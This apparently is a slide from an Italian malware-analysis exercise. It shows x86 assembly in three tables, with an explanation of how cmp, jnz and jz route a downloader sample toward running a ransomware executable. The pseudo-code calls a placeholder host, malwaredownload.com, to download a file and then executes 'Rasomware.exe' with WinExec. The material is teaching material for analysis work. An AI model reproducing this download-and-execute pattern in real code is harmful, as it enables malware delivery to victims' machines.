

Tabella 1
00401040                              mov                                        EAX, 5

00401044                              mov                                        EBX, 10

00401048                              cmp                                        EAX, 5

0040105B                              jnz                                           loc 0040BBA0                    ; tabella 2

0040105F                              inc                                           EBX

00401064                              cmp                                        EBX, 11

00401068                              jz                                             loc 0040FFA0                     ; tabella 3
Tabella 2
0040BBA0                             mov                                        EAX, EDI                               EDI=malwaredownload.com

0040BBA4                             push                                       EAX                                       ; URL

0040BBA8                             call                                          DownloadToFile()              ; pseudo funzione
Tabella 3
0040FFA0                             mov                                        EDX, EDI                              EDI:C:\Program and Settings\Local User\Desktop\Rasomware.exe

0040FFA4                             push                                       EDX                                       ; .exe da eseguire

0040FFA8                             call                                          WinExec()                            ; pseudo funzione
Il malware , di tipo downloader, effettua un jump in tabella 3, con istruzione jz, perché, viene inizializzato EAX a 5 ed EBX a 10, si esegue l’istruzione cmp per verificare se il valore EAX-5 faccia 0.
Visto che l’istruzione jnz ha un risultato negativo, si prosegue con le successive righe di codice, dove viene incrementato EBX di 1 e la seconda istruzione cmp verifica il valore uguale a 0.